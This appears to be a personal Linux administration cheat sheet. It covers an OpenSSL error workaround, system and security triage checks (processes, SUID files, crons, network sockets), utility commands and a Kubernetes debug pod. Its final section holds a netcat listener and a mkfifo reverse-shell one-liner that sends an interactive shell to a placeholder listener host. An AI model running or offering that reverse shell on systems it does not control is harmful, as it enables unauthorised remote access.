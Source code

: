 ...

## **error:25066067:DSO support routines:dlfcn_load:could not load the shared library**

tmp fix: `export OPENSSL_CONF=/dev/null`

`export TERM=xterm-256color`

"eval `ssh-agent` && ssh-add"


## Load snaps profile

`sudo apparmor_parser -r /var/lib/snapd/apparmor/profiles/*`

## Checks

### System
- `ps -ef`
- `top -p PID`
- `uname -a; env; history`
- `systemctl list-unit-files`
- `tail -f /var/log/messages`
- `find / -mtime -7`
- `find / -type f -mmin -60`
- `nmap -sT -v localhost`
- `find /dir -executable -type f`

### Who
`who; w; last`

### Super users
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'`

### SUID / GUID
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 2> /dev/null`
- `find / -type f -perm -02000 2> /dev/null`

### Net status
- `ss -antup; lsof -i`
- `netstat -anp`

### List crons
`crontab -l; ls -la /etc/cron*`

### history

`~/.bash_history`

### Create file

`dd if=/dev/zero of=foobar.txt bs=1M count=<number_of_megabytes>`

### Random string

`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 23 | head -n 1`

### rm

`find ./ -type f -name "*.json" -exec rm -f {} \;`

## Commands
```shell
strace # Display the system calls and signals of a specific program
lsof # List open files (process)
stat # Display file or file system status
modinfo # Show information about a Linux Kernel module
modprobe # Add and remove modules from the Linux Kernel
lsmod # Show the status of modules in the Linux Kernel
dmesg # Print or control the kernel ring buffer (logs)
watch # Execute a program periodically, showing output fullscreen
xxd # Make a hexdump or do the reverse
readelf # Display information about ELF files
objdump # Display information from object files
strings # Display text strings embedded in binary
exiftool # Show/Remove files metadata
```

### md5sum

```sh
find . -type f ! -name checksums.md5 -exec md5sum {} + > checksums.md5
md5sum -c checksums.md5
```

### pod debug
```sh
kubectl run pod-debug --rm -i --tty --image alpine:latest -- /bin/sh
#apk update
#apk add busybox-extra
#apk --update add <package>
```

### -1

`nc -lvp 4444`
```sh
mkfifo /tmp/fifo
sh -i < /tmp/fifo 2>&1 | nc IP_LISTENER 4444 > /tmp/fifo
```
